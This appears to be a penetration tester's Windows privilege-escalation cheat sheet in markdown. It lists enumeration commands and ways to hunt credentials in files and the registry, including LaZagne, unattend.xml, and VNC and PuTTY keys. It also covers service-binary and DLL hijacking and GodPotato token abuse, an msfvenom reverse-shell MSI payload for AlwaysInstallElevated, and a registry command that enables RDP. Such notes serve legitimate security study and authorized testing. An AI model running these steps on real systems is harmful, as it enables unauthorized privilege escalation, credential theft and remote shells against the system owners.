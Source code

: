 #### Manual

- Get-Process
- Get-LocalUser
- Get-LocalGroup
- Get-LocalGroupMember adminteam
- systeminfo
- ipconfig /all

#### Powershell History

- Get-History
- (Get-PSReadlineOption).HistorySavePath

#### Interesting Microsoft Office and text files

- Get-ChildItem -Path C:\ -Include _.txt,_.pdf,_.xls,_.xlsx,_.doc,_.docx -File -Recurse -ErrorAction SilentlyContinue

#### Show hidden files

- gci -force C:\Windows\System32

#### KDBX file?

- Get-ChildItem -Path C:\ -Include \*.kdbx -File -Recurse -ErrorAction SilentlyContinue

#### Use windows-exploit-suggester.py

- ./windows-exploit-suggester.py --update
- run `systeminfo` command on the window host then make a txt file on kali for it
- ./windows-exploit-suggester.py -d 2024-11-05-mssb.xls -i systeminfo

#### Use PowerUp.ps1

- .\PowerUp.ps1
- Get-ModifiableServiceFile

#### Use PrivescCheck.ps1

#### Binaries Hijack with uncommon Services

- uncommon/odd services? -> Service Binary Hijack
  - Manual Enumeration
    - Get-CimInstance -ClassName Win32_Process | Sort Name | Select Name, CommandLine | Format-List
    - Get-CimInstance -ClassName win32*service | Select Name, StartMode | Where-Object {$*.Name -like 'auditTracker'}
    - check for user's permission on the service exe/path `icacls "C:\xampp\apache\bin\httpd.exe"`, we want F access
    - if we can replace the service executable with our then restart the service

#### Unquoted service path?

- numerate running services to see if we can start/stop them
  - Get-CimInstance -ClassName win32_service | Select Name,State,PathName
- can also run this to check for unquote services
  - wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
- check to see if u can stop/start the service
  - `Start-Service GammaService` or `Get-Service <Name>` & `Stop-Service GammaService` (Make sure to stop the service before file transfer)
- using `icacls "C:\"` to check to see if we can write to the directory indicating with _W_ or full access _F_

#### DLL hijack

- check for installed applications and see if anything odds if so check them out
  - Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
- look up the interesting installed application and see if it has any DLL vulnerabilies
- check if current user can write to the directory so we can place the malicious

#### Scheduled task?

- check for running scheduled tasks
  - schtasks /query /fo LIST /v
- if scheduled task is using an exe, use `icacls` to check if we have write permission

#### Using exploits

- check systeminfo for anything vulnerables
  - check _SeImpersonatePrivilege_ using `whoami /priv`
    1. use `reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"` to check for .NET version and use GodPotato
    2. download nc64.exe as well

#### AlwaysInstallElevated?

- use msfvenom to create a .msi file as a reverse shell ![[Pasted image 20241105173221.png]]
- msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR tun0 IP> LPORT=445 -f msi -o shell.msi

---

- Check users and Groups
- Check network config
  - run `ipconfig` for any duo network interface
  - check open ports
- any weird/uncommon application install? Store Cred Check
  - use LaZagne.exe
  - check for stored credentials [Stored Credentials – Penetration Testing Lab](https://pentestlab.blog/2017/04/19/stored-credentials/)
  - findstr /si password _.txt
    findstr /si password _.xml
    findstr /si password *.ini
    C:\> dir /b /s unattend.xml
    C:\> dir /b /s web.config
    C:\> dir /b /s sysprep.inf
    C:\> dir /b /s sysprep.xml
    C:\> dir /b /s *pass\*
    C:\> dir /b /s vnc.ini
  - Check here, could also be in base64
    - C:\unattend.xml
      C:\Windows\Panther\Unattend.xml
      C:\Windows\Panther\Unattend\Unattend.xml
      C:\Windows\system32\sysprep.inf
      C:\Windows\system32\sysprep\sysprep.xml
  - IIS web server?
    - C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
      C:\inetpub\wwwroot\web.config
  - Group Policy Preferences
    - Services\Services.xml
      ScheduledTasks\ScheduledTasks.xml
      Printers\Printers.xml
      Drives\Drives.xml
      DataSources\DataSources.xml
  - McAfee?
    - %AllUsersProfile%Application Data\McAfee\Common Framework\SiteList.xml
  - VNC?
    - VNC Ultra
      - reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
  - Putty?
    - reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
    - reg query HKLM /f password /t REG_SZ /s
    - reg query HKCU /f password /t REG_SZ /s
  - Window AutoLogin?
    - reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
  - SNMP Parameters?
    - reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

#### Enable RDP

- reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v "fDenyTSConnections" /t REG_DWORD /d 0 /f

